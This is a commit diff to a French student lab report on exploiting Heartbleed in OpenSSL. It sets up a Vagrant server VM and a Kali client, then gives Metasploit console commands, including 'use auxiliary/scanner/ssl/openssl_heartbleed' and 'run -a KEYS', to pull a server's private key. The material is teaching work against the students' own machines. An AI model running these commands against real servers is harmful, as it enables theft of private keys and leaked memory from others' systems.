

Before and after one commit to jordandegea/ENSIMAG-SECU-OPENSSL, a LaTeX document (rapport/rapport.tex): part of page 2 of 3, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Ajout de run -a KEYS au rapport

```diff
--- a/rapport/rapport.tex
+++ b/rapport/rapport.tex
@@ -100,25 +100,31 @@
 
 Nous utilisons vagrant pour lancer notre machine virtuelle. La commande \textit{vagrant up} permet de créer la machine virtuelle avec virtualbox. Tous les outils necessaires à l'expérimentation sont installé sur la machine virtuelle. Cette machine virtuelle joue le role du serveur. Une autre machine, cette fois cliente, est installé avec Kali Linux afin d'exploiter la faille.
 
-Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande "vagrant up". Cette commande va installer les machines.
-Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (kali).
+Pour lancer les machines, dirigez vous dans le dossier "experimentation" puis lancez la commande \texttt{vagrant up}. Cette commande va installer les machines.
 
-Maintenant lancez les commandes : \\
-sudo apt-get update \\
-sudo apt-get upgrade
-# l'upgrade est très long, faites entrer a chaque interaction
 
-sudo msfupdate\\
-sudo msfconsole\\
+Une fois installé, lancer la commande "vagrant ssh client" pour connecter à la machine cliente (Kali).
 
-puis dans la console:\\
-use auxiliary/scanner/ssl/openssl\_heartbleed\\
-set RHOTS <votreip> \\
-set RPORT 13443\\
-set verbose true\\
-run\\
+Maintenant lancez les commandes :
 
-On peut voir des informations récupérées, dans la catégorie "Printable info leaked". Avec des outils plus poussés et de nombreuses requêtes, il est possible de récupérer la clef privée.
+\begin{verbatim}
+sudo apt-get update
+sudo apt-get upgrade #l'upgrade est très long, faites entrer a chaque interaction
+
+sudo msfupdate
+sudo msfconsole
+\end{verbatim}
+
+puis dans la console:
+\begin{verbatim}
+use auxiliary/scanner/ssl/openssl\_heartbleed
+set RHOSTS <votreip>
+set RPORT 13443
+set verbose true
+run -a KEYS
+\end{verbatim}
+
+On voit que cet exploit nous permet de récupérer automatiquement et particulièrement facilement la clé privée du serveur.
 
 % outil plus puissant à installer sur kali : https://github.com/robertdavidgraham/heartleech
 
```
